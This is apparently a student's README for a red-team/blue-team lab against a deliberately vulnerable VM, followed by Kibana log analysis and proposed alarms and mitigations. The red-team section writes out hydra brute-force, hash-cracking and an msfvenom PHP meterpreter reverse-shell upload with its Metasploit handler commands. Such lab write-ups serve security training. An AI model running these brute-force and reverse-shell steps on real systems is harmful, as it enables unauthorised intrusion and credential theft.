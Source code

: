 # Red-Team-VS-Blue-Team-Project
Acted as a red team member to attack a vulnerable VM within my environment, ultimately gaining root access to the machine. Acted as Blue Team member to use Kibana to review logs taken during the attack implemented as the red team. Scenarios in which responsibilities of both a pentester and SOC analyst are used. 


 # Red Team
- `ifconfig` to find out network IP address and network range 

![ifconfig](https://user-images.githubusercontent.com/61332852/137389108-3288b38b-5fcd-497a-878f-206fe37f54f1.png)

- `netdiscover -r 192.168.1.255/16` Since we know the netmask is 255.255.255.0 that would be 16 bits of the subnet so then we can run the netdiscover command to discover other hosts on the network. 

![netdiscover](https://user-images.githubusercontent.com/61332852/137389276-f4aca53a-40ea-41ac-a4b7-9ab04459d79a.png)
    
   - After running the command we can conclude that there are 3 hosts within the network with the IPs of `192.168.1.1 , 192.168.1.100 and 192.168.1.105.`
   - Now we need to discover what machine we need to get access to 
- After checking up on the IPs we can conclude that `192.168.1.105` ended up being a web server.   
- After checking the website we see open directories that show company information showing that this is a vulnerability in itself.

 ![index](https://user-images.githubusercontent.com/61332852/137389410-4a1dec9f-30c7-4052-9a34-50fb89184500.png)

- And while exploring through the files we see an important directory being mentioned by the name of a `secret_folder`. Which can end up containing PII or important company documents. 
- After going in the URL bar and typing in the secret folder found `192.168.1.105/company_folders/secret_folder` it then shows a login prompt meant for “Ashton” only. 

    ![ashton](https://user-images.githubusercontent.com/61332852/137389749-5b0f9dec-6d97-4d29-af2c-81b454318207.png)

- After getting a username for a potential login we can then try to brute force the login by using `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder` command. 

 
 ![f2ef2a23bee60b46f58307ca124d2678](https://user-images.githubusercontent.com/61332852/137389842-76fca522-77e3-4a9d-9dac-ca31b880ea3e.png)
   - After using the command we successfully brute force the account and was able to retrieve the login information for ashton 
   
   ![84d82a9a9e4648086a79b066c3362ec5](https://user-images.githubusercontent.com/61332852/137390073-bf6a0604-b024-4723-89a7-38e77bde1c13.png)

- Logging in the account then brings us to a personal note Ashton then made for himself containing other important information
 
 ![cc397b4dc2076647d79196d97e9632fe](https://user-images.githubusercontent.com/61332852/137390404-6b85bb05-ec5a-460e-a194-31611558d358.png) 
   - A note that hes going to be using Ryans account
   - After researching more on the web server we found that Ryan is the CEO of the company.
   - Hinting knowing that Ashton knows his login information with the hash giving at the top of the screen

- Next step is to figure out the login to the file directory `dav://192.168.1.105/webdav/` using the hashed password at the top of Ashtons note. Using the website https://crackstation.net/  
   - Cracking the hash we find the password is `linux4u`
     
     ![ac297f568253612ff55d38fdf157547b](https://user-images.githubusercontent.com/61332852/137390969-4da74fb4-9592-4fd2-9844-2e22bc2a5865.png)

- Getting the login information to the company directory we know can exploit getting into the company system since the server has an open port 80 by creating a reverse shell script. The command being `msf venom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > newshell.php`

 ![b5607ffdbb52b0186be7de39a308e88a](https://user-images.githubusercontent.com/61332852/137391072-15001d7a-24ad-431d-9b67-cf39a58c789e.png)

- Once the reverse shell script is created we can now upload it to the shared directory to run it.
  
  ![4acac4ed99b11426e3e93855ce8a74f8](https://user-images.githubusercontent.com/61332852/137391146-79ec5c42-adaf-45bb-bfe1-25fd537ddadc.png)

- Before we run it we will want to run Metasploit to listen to the reverse shell on our host machine to access it remotely.
- The commands would be used in this order to begin the listening 
   - `msfconsole -q`
   - `use exploit/multi/handler`
   - `Set payload php/meterpreter/reverse_tcp` 
      - (same payload script as the one we copied to the shared directory)
   - `Set LHOST 192.168.1.90`
      - Ip of machine we want to listen on 
   - `Set LPORT 4444`
      - Port we want to listen on
   - `Show options` 
      - To see if all the settings we had set are correct
   - `run`
      - To execute the listening process
 
  ![bc35031f4a1536c75c80faa31941456e](https://user-images.githubusercontent.com/61332852/137391217-c0c8f352-de04-4f7c-b3fb-5722b93771b1.png)


- Once this is completed we can now run the actual script through the shared directory `dav://192.168.1.105/webdav` which then after will then open up meterpreter on our host machine to show that we have now established connection 

![8316e2c4870b99011bd9c617fa3932fe](https://user-images.githubusercontent.com/61332852/137391273-63d35e21-d842-41fb-b658-6eb79a68052e.png)

   - After having the session open we can run basic commands to grab any other additional information about the system we got access to like `getuid`. We can also open up a shell terminal if needed by using the command `shell`.
- We can now run the command find -iname flag.txt to grab the flag we are looking for one the target machine.

 # Blue Team
- Analysis: Identifying the port scan
   - The port scan occurred on October 4th 2021 at 11:52PM
   - 254,496 packets were sent from the machine 192.168.1.90
   - Since there is such high network traffic when it should be idle it can be a sign of a port scan 
![85f85cd01314b79528146ba25e644eb1](https://user-images.githubusercontent.com/61332852/137392262-bab44589-0733-471d-a27c-2d3355f41d78.png)



- Analysis: Finding the Request for the hidden directory 
   - 19,227 requests were made to this URL path. This path was requested by the IP address of 192.168.1.90
   - The files that were requested had a hash that contained Ryan login credentials 
![c4273713c081053f537644eed454f141](https://user-images.githubusercontent.com/61332852/137392339-aba74b30-013d-4607-9dc1-e29d9dbfd67a.png)



- Analysis: uncovering the brute force attack
   - 19,227 requests was made during the brute force attack to access the secret folder directory
   - 16,101 requests were made before the password was used correctly
 ![e06114f629b2d5b8dd88724f3a6a59ac](https://user-images.githubusercontent.com/61332852/137392400-cc734f1b-c336-4f5a-9ec7-d629a092452f.png)


- Analysis: Finding the WebDAV Connection
   - 180,859 requests were made to this directory 
   - The files that were requested was the passwd file and also the php file used to initiate the reverse shell
![82ff51532e66b15c26075f0aa28127de](https://user-images.githubusercontent.com/61332852/137392456-7a4c8fc2-3a3e-4808-86be-c40ce0c5ca8f.png)


# Blue Team Proposed Alarms and Mitigation Strategies
`- Blocking the Port Scan`
  - Alarm
    - An alert to be sent to the team for a 1000+ port connections within a hour
  - System Hardening 
    - To run multiple port scans to see what ports are being opened and if any are being used maliciously
    - To make sure Firewall is up to date and to diminish any connections to the host

`- Finding the Request for the Hidden Directory`
  - Alarm
    - For an alert on the system to detect if certain files and directory within the system are being accessed without permission
    - If these private files and directories are trying to be accessed more than 3 times the alert would then be sent to the team
  - System Hardening
    - To encrypt sensitive data and for files to not be shared with users outside the company being in this situation.
    - To make a whitelist to people who can and cant use these files and directories

`- Mitigation: Preventing Brute Force Attacks`
  - Alarm
    - I would implement a failed login alert to show a certain amount of times the login has failed 
    - If the HTTP error code 401 is occurring multiple times an alert would be sent as well
    - If there is more than 5 failed login attempts the alarm would be triggered
  - System Hardening
    - a lock out after to many attempts of logging in to prevent a brute force attack like the one implemented
    - To require employees to have a complex password to mitigate the chances of getting a login attempt correctly

`- Mitigation: Detecting the WebDav Connection`
  - Alarm
    - An alert would be made to send the IP addresses trying to get access to webdav  
  - System Hardening
    - To whitelist certain IP addresses so only certain machines can access WebDav

`- Mitigation: Identifying Reverse shell Uploads`
  - Alarm
    - An alert can be shown when a file is being uploaded to the webdav folder and also the type of file being copied.
  - System Hardening
    - To mitigate the attack, permissions on the folder itself can be changed to read only so this prevents any malicious files being uploaded to the folder.
    - To whitelist IP addresses that can access the webdav folder 


